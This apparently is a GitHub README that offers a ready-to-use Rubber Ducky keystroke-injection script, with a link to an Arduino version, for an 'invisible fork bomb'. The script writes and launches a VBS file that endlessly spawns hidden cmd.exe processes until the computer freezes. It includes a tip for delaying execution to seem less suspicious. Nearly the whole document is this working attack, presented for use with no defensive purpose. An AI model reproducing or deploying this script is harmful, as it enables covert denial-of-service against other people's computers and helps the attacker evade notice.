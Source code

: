 # Invisible Fork Bomb for Arduino and Ducky
The script creates and starts a vbs that executes exponentially cmd.exe without visible windows (Fork bomb -> Freezes the PC).

# About...
Author: BlueArduino20

Version 1.0

# Code for Rubber Ducky

<pre><code>
GUI r
DELAY 500
STRING cmd
ENTER
DELAY 500
STRING copy con forkb.vbs
ENTER
STRING do
ENTER
STRING CreateObject("Wscript.Shell").Run "cmd", 0, False
ENTER
STRING loop
CTRL z
ENTER
DELAY 50
REM STRING ping localhost -n 10
REM You can uncomment this ^ to delay 10 seconds before starting the fork bomb. (By this way it's less suspicious)
STRING start forkb.vbs
ENTER
</pre></code>

# Code for Arduino

<a href="https://github.com/BlueArduino20/Invisible_fork_bomb/blob/master/Invisible_fork_bomb.ino">Invisible_fork_bomb.ino<a>
